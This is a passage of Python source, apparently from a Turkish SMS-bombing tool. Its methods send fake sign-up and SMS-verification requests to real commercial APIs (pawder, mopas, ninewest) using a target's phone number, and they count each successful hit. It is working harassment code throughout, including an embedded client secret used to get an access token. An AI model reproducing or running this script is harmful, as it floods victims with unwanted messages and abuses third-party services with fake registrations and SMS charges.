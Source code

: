     #pawapp
    def pawapp(self):
      try:
        url = "https://api.pawder.app/api/authentication/sign-up"
        payload = {
            "languageId" : "2",
            "mobileInformation" : "",
            "data" : {
                "firstName" : f"{''.join(random.choices(string.ascii_lowercase, k=10))}",
                "lastName" : f"{''.join(random.choices(string.ascii_lowercase, k=10))}",
                "userAgreement" : "true",
                "kvkk" : "true",
                "email" : f"{''.join(random.choices(string.ascii_lowercase, k=10))}@gmail.com",
                "phoneNo" : f"{self.phone}",
                "username" : f"{''.join(random.choices(string.ascii_lowercase + string.ascii_uppercase + string.digits, k=10))}"
            }
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> pawapp")
            self.adet += 1
        else:
            raise
      except:
        print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> pawapp")

    #mopas
    def mopas(self):
      try:
        url = "https://api.mopas.com.tr//authorizationserver/oauth/token?client_id=mobile_mopas&client_secret=secret_mopas&grant_type=client_credentials"
        r = requests.post(url=url, timeout=2)
        
        if r.status_code == 200:
            token = json.loads(r.text)["access_token"]
            token_type = json.loads(r.text)["token_type"]
            url = f"https://api.mopas.com.tr//mopaswebservices/v2/mopas/sms/sendSmsVerification?mobilenumber={self.phone}"
            headers = {"authorization": f"{token_type} {token}"}
            r1 = requests.get(url=url, headers=headers, timeout=5)
            
            if r1.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> mopas")
                self.adet += 1
            else:
                raise
      except:
                print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> mopas")
                

    #ninewest
    def ninewest(self):
      try:
        url = "https://www.ninewest.com.tr/webservice/v1/register.json"
        payload = {
            "alertMeWithEMail" : False,
            "alertMeWithSms" : False,
            "dataPermission" : True,
            "email" : "asdafwqww44wt4t4@gmail.com",
            "genderId" : random.randint(0,3),
            "hash" : "5488b0f6de",
            "inviteCode" : "",
            "password" : f"{''.join(random.choices(string.ascii_lowercase + string.ascii_uppercase + string.digits, k=16))}",